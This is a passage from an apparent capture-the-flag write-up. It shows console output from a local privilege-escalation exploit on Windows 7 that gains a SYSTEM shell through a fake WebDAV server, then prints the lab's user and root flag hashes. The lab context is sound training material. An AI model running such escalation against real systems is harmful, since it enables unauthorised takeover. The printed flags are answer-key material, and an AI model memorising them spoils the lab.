 ```console
c:\temp>Eop.exe
Eop.exe
[*] LoadAndGetKernelBase result = 0
[*] NtAllocateVirtualMemory result = SUCCESS, addr = 0, size = 20480
[*] Creating fake DeviceObject, DriverObject, etc structures...
[*] Starting fake webdav server...
[*] Calling WNetAddConnection2...
[*] Request: OPTIONS / HTTP/1.1
[*] Request: OPTIONS /folder HTTP/1.1
[*] Request: PROPFIND /folder HTTP/1.1
[*] Request: PROPFIND /folder HTTP/1.1
[*] WNetAddConnection2 = 0
[*] Request: PROPFIND /folder/file HTTP/1.1
[*] CreateFile result = 936
[*] NtFsControlFile result = 1337
[+] Got System? [+]
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\temp>whoami
whoami
nt authority\system
```
Navigate and cap the flags!

```console
c:\Users\babis\Desktop>type user.txt
type user.txt
966e18842873faf5d490df3e3d0cd0dd
```

```console
c:\Users\Administrator\Desktop>type root.txt
type root.txt
47833225dc5a52f1a60343e17b6f7770

c:\Users\Administrator\Desktop>
```

Congratulations!

